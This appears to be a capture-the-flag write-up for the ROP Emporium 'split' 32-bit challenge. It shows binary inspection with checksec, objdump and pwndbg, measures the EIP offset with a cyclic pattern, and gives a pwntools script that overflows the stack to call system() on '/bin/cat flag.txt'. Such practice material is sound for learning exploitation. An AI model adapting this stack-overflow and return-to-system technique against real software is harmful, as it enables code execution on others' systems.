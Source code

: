 First of all, use checksec to get some binary information

```
[marco@marco-pc Downloads]$ file split32
split32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f8a6d6bf3d264d331ecbf9d1e6858d6eac124b89, not stripped
[marco@marco-pc Downloads]$ checksec --file=split32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   80 Symbols     No	0		3	split32
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table


```
[marco@marco-pc Downloads]$ objdump -t split32
...
080485f6 l     F .text	00000053              pwnme
...
08048649 l     F .text	00000019              usefulFunction
...
0804a030 g     O .data	0000001a              usefulString
...
```

There are some interesting stuff:
- pwnme, which is called from main, print some strings and get an input;
- usefulFunction perfom a system comand "/bin/ls"
- usefulString is "/bin/cat flag.txt"
```
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
pwndbg> x/s 0x8048747
0x8048747:	"/bin/ls"
pwndbg> x/s 0x0804a030
0x804a030 <usefulString>:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP. Jumping at system@plt with usefulString as parameter, we can read the flag.
Let's find out how many bytes we need to fill until EIP

```

pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

...

split by ROP Emporium
32bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

 EIP  0x6161616c ('laaa')

...

pwndbg> cyclic -l 'laaa'
44

...
```

Final exploit:

NOTE: I put exit address as return address for a clean execution but you can put 4 random bytes like "BBBB"

```python
  1 from pwn import *
  2 
  3 system_addr = 0x8048430
  4 string_addr = 0x804a030
  5 exit_addr = 0xf7de96c0
  6 
  7 expl = ("A"*44).encode()
  8 expl += p32(system_addr)
  9 expl += p32(exit_addr)
 10 expl += p32(string_addr)
 11 
 12 p = process('./split32')
 13 p.recvuntil('>')
 14 p.sendline(expl)
 15 print(p.recvall().decode())
```
